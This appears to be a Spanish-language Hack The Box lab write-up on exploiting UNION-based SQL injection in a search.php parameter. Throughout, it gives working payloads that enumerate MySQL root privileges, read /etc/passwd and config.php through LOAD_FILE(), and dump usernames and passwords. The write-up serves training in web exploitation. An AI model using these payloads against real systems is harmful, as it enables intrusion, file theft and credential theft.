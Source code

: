 # Guía práctica: SQL Injection para enumeración y lectura de archivos (HTB)

##  Introducción

Esta guía documenta el proceso de explotación de una **inyección SQL** [SQLi](./SQLi.md) para:

- Confirmar la vulnerabilidad.
- Enumerar permisos del usuario `root` en MySQL.
- Leer archivos del sistema como `/etc/passwd`, `search.php` y `config.php`.
- Encontrar credenciales sensibles.

Todas las pruebas se realizaron en la URL:

```url
http://83.136.255.10:58278/search.php?port_code=
````

---

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2,3,4-- -
````

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `2`, `3` y `4` en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 4.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

---

## Otras queries útiles para SQLi (bonus)

### Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version, 3, 4-- -
```

### Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata-- -
```

### Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

### Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

### Extraer usuarios de una tabla `users`

```sql
' UNION SELECT 1, username, password, 4 FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
